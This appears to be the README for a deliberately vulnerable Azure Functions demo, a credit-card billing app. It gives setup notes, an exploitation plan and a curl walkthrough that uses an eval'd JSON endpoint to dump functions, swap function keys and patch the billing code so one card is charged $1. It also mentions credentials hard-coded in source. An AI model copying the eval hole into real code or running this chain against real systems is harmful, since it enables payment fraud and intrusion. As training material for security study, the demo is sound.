 Setup notes

- After deploying the .js files and package.json file for each function, you'll need to go into the scm console <appname.scm.azurewebsites.net/DebugConsole>, go into the home/site/wwwroot/<functionName> directory and run `npm install`.  It'll take a long time.

- Sometimes calls to the API just seem to fail.  Can't reproduce locally.  Not sure, just try again.

- I've included all sorts of creds directly in source out of ~~laziness~~expediency.

- Running the below steps will leave the app in the broken state.  I haven't yet written easy scripts to reset things to 'beginning' state:
  * Billing needs function.json.bkup copied back over function.json
  * TotalView and Billing need their original creds (d:\home\data\Functions\secrets)
  * ?? (haven't fully tested)

-----------------------------------
Concept

Layout for the vulnerable app.

Maybe delivered with serverless?

Concept:
* This is a webapp to consolidate credit card payments.  
* Payments aggregate over the month, and at the end of the month a scheduled function sends a single bill out, thus avoiding additional credit card fees.

Endpoints / functions:
* Check my balance:
  * API endpoint
  * In:
    * The 'semi-public' key for the function
    * Their card number in json format {cardNumber: <cardnum>} which is eval'd
  * Returns: dates and amounts of purchases
  * This is the vulnerable endpoint
* Check what will be paid at the end of the month:
  * API endpoint
  * Requires master (or 'more secret') key to use
  * Returns dict of card #s to payments processed
* Billing function:
  * Cron for once monthly
  * Per customer, sums costs and then sends the bill out
  * Marks as billed? (allowing spoofing)
* API endpoint for writing charges? (not implemented yet, maybe unneccesary)
  * Change code to not accept your credit card?

Exploitation path:
* Discover arbitrary code execution in initial API endpoint:
  * Since path is read-only, we're not too worried about breaking things
  * exploit is just eval'ing some JSON to make things super simple
  * Information gained:
    * Master key / secure key (encrypted, haven't dug into how to decrypt)
    * List of other functions (we didn't know about the other ones)
    * General access
* Dump sources of other functions as wanted
* Take key
  * Use to trigger the general 'card info' function
* Modify billing function:
  * Change it from cron to API
  * Trigger billing at arbitrary times
  * Change source of billing function to only bill me $1
* Change source of 'charge writing' API to not accept my card (or someone else's?) (if fn exists)

SQL schema:
* Cards: ID, card#, API key
* Purchases: ID, CardID, Time, $amount

----------------------------

Routes: (plug the relevant keys in for your own? functions app)

vuln_api: takes your credit card #, returns just your charges.
`curl -X POST -d @benign.json -K vuln.config`
example: [{"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"amount":5.99,"date":"2017-06-17T00:00:00Z"}]

totalView: Doesn't take any arguments.  Returns the list of all charges.
`curl -X POST -d '{}' -K total.config`
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

billing: Sums up the cards to do the billing.  Can't be triggered via API, is triggered via cron.

Vulns:
`curl -X POST -d @print_return.json -K vuln.config`
example: "custom text"

List available functions with secret sets via list_functions:
`curl -X POST -d @list_functions.json -K vuln.config`
example: ["billing.json","host.json","httptriggerjs2.json","manualtriggerjs1.json","publicvuln.json","timertriggerjs1.json","totalview.json","totalview.json.bkup","totalview.json.orig"]

Try to run totalview:
`curl -X POST -d '{}' -K total_noauth.config`
example: this doesn't work because we don't have the key!

Change permissions on totalview: (they keys on disk are encrypted, but they're all encrypted against the same key, so we can just copy in our known working one!)
`curl -X POST -d @change_totalview_perms.json -K vuln.config`
example: "done"

After changing perms, run totalView again:
`curl -X POST -d '{}' -K total_noauth.config`
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

Now what's Billing - let's read its function metadata:
`curl -X POST -d @read_billing_info.json -K vuln.config`
example: "{\r\n  \"bindings\": [\r\n    {\r\n      \"name\": \"myTimer\",\r\n      \"type\": \"timerTrigger\",\r\n      \"direction\": \"in\",\r\n      \"schedule\": \"0 0 0 1 * *\"\r\n    }\r\n  ],\r\n  \"disabled\": false\r\n}"

We can't call it by API since it's a cron job.  Let's change it to being API-able:
`curl -X POST -d @change_billing_to_api.json -K vuln.config`

Now change the permissions to use our known key like above:
`curl -X POST -d @change_billing_perms.json -K vuln.config`

Now we can query it via API:
`curl -X POST -d @benign.json -K billing.config`
example: [{"1234-5678-9012-3456":30.98},{"0000-0000-0000-0000":37.99}]

But we don't want to be billed, right?  Let's see how billing works by dumping the source:
`curl -X POST -d @read_billing_source.json -K vuln.config`
example: <bunch of js source>

Now let's put in something for our card:
`curl -X POST -d @patch_billing_code.json -K vuln.config`
example: "done"

And when we query billing again:
`curl -X POST -d @benign.json -K billing.config`
example: {"1234-5678-9012-3456":1,"0000-0000-0000-0000":37.99}


TODO:

- make it cooler by making vuln_api use an sql user that doesn't have creds to just do the further queries by itself (so we have to gain access to totalView)
